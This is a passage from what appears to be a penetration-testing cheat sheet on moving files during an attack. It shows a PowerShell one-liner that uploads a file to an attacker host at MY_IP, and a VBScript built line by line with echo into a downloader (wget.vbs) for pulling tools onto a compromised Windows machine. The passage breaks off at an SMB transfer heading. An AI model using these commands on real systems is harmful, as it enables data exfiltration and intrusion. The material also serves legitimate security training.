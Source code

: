 ```bash
sudo mv upload.php /var/www/ && sudo chown www-data:www-data /var/www/upload.php
```

In Windows use PowerShell to upload the file to the attacker host / the web server:

```powershell
powershell (New-Object System.Net.WebClient).UploadFile('http://MY_IP/upload.php', 'filename.txt')
```

### Alternative VBScript

**VBScript(XP, 2003)**

In this first, we will echo all these commands in a file `wget.vbs`\
If you are creating this file on Windows then it will work fine.\
If creating on Linux and then transferring to windows then you may face issues sometimes, use **unix2dos** before you transfer it in this case.

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs  
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs  
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs  
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs  
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs  
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs  
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs  
echo Err.Clear >> wget.vbs  
echo Set http = Nothing >> wget.vbs  
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs  
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs  
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs  
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs  
echo http.Open "GET",strURL,False >> wget.vbs  
echo http.Send >> wget.vbs  
echo varByteArray = http.ResponseBody >> wget.vbs  
echo Set http = Nothing >> wget.vbs  
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs  
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs  
echo strData = "" >> wget.vbs  
echo strBuffer = "" >> wget.vbs  
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs  
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs  
echo Next >> wget.vbs  
echo ts.Close >> wget.vbs
```

**Using wget.vbs**

cscript wget.vbs [http://192.168.1.2/xyz.txt](http://192.168.1.2/xyz.txt) xyz.txt

## Transfer via SMB

Listen on your machine/host:
